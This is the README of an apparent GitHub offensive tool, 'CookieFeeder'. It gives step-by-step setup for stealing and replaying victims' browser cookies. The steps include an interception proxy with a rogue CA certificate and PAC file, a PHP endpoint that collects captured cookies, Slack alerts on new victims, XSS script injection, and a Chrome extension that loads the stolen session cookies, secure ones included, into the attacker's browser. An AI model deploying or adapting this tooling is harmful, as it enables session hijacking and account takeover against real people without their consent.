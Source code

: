 # CookieFeeder

CookieFeeder is a Chrome Extension designed to help in the process of cloning cookies from a compromised victim, by replicating the cookies from a remote log file into the browser. The extension will inject all cookies, including secured cookies, into all compromised websites without the need to have url opened.

## Server Setup

Follow this in case you want to do a full setup, including the server for capturing the cookies. Otherwise, skip to the next section.

1. Create an EC2/Lightsail instance. Install apache2, setup your domain and SSL certificates.

2. Clone the repository:
    ```
    git clone https://github.com/thiagomayllart/Blender
    cd Blender/CookieFeeder
    ``` 
3. Install mitmproxy:
    ```
    apt install mitmproxy
    ```
4. Change `cert_gen.cnf` as you wish. This is the config file to create the CA certificate and key. Ideally you will only need to change the "dn" section with other information.
5. Run
    ```
    ./generate_certs.sh`
    ```
6. Save your `server.php` in your apache2 path (e.g. /var/www/html). You can change the filename, only ensure you have installed php mod in your apache2 server:
    ```
    apt install php libapache2-mod-php
    ```
7. Generate you IV and key:
    ```
    ./generate_key_iv.sh
    ```
8. Replace the KEY and IV in the `cookie_monitor.py` file:
    ```
    KEY = base64.b64decode('YOUR_KEY')
    IV = base64.b64decode('YOUR_IV')
    ```
9. Replace the PHP url in the `cookie_monitor.py` file. This should be the url of the server.php:
    ```
    SERVER_URL = 'https://YOUR_ENDPOINT/server.php'
    ```
10. Add your Slack Webhook for alerting upon new connections:
    ```
    SLACK_WEBHOOK_URL = 'https://ADD_HERE'
    ```
11. If you are injecting XSS in the pages, replace here:
    ```
    script.src = 'YOUR_SCRIPT_JS_URL';
    ```
12. Also replace this variable `WHITELISTED_HOST` with the url your XSS is stored.
13. Modify the `your_proxy_domain` in the settings.pac file. This should be the endpoint you will be running your proxy. Ideally, the proxy and the apache2 should be in the same server, thus, the domain should be the same.
14. Store your settings.pac file (and change the name) in the root of your apache web server.
15. Start the proxy:
    ```
    mitmdump -s cookie_monitor.py --set stream_large_bodies=1m --set flow_detail=0 --set max_flow_size=100m --set connection_strategy=lazy --set block_global=false -p 8080
    ```

## Extension Setup

1. Clone the repository:
```
git clone https://github.com/thiagomayllart/CookieFeeder
```
2. Create a new Chrome Profile. This is useful to avoid overwriting or conflicting with your actual cookies.
```
Customize and Control Google Chrome -> Select the current Profile -> Add new profile
```
3. Install CookieFeeder. 
4. You should have already created your key/IV from the previous section, if not, run `generate_key_iv.sh`. Using those keys, replace `YOUR_KEY` and `YOUR_IV` in CookieFeeder/cookiefeeder/background.js.
    - a. ```Navigate to chrome://extensions/```
    - b. ```Select "load unpacked"```
    - c. ```Select the cookiefeeder directory inside the clone repository```
    - d. ```Extension will be added to Chrome```

5. Click on the extension icon, input the Cookies URL and click on Save. Wait a few seconds as the cookies will be synchronized with your Chrome profile.

